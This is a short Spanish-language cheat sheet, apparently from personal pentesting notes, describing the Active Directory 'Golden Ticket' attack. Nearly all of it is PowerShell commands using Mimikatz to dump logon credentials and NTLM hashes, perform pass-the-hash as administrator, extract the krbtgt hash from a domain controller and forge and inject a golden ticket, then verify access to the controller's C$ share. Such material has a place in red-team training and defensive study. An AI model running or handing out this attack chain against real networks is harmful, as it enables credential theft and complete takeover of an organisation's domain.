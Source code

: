 # Golden Ticket 

Tags: #AD #Windows #Powershell 

Es un ataque de ciberseguridad malicioso donde un atacante gana acceso ilimitado a un dominio de una organización, accesando a la data almacenada en AD. Explota una vulnerabilidad en el protocolo de autenticacion de Kerberos, donde es usado para acceder al AD, permitiendo al atacante un 'bypass' normal. 

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ . .\Invoke-Mimikatz.ps1 
❯  Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM hash, SID de todos los usuarios asi como el del 'Admin'

# Ahora haremos el Pass The Hash 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<NTLM-Hash> /run:powershell.exe"' 
```

```powershell 
# En la nueva consola que se abre con el comando anterior vamos a extraer hash de kerberos de las password de las cuentas
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\Invoke-Mimikatz.ps1 
❯  Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DomainController> # Muestra info de los secretos de LSA y copiamos el NTLM de 'krbtgt'
```

```powershell
# Regresamos a la primer consola, generamos e inyectamos el 'Golden Ticket'
❯ Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:12345 /krbtgt:<krbtgt> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'  # Generamos e inyectamos nuestro 'Golden Ticket' 

❯ klist                                      # Muestra info del ticket 
	❯ klist purge                           # Si hacemos mal el ticket los podemos eliminar asi 
❯ ls \\DomainController\C$                   # Verificar si ingresamos al 'Domain Controller'
```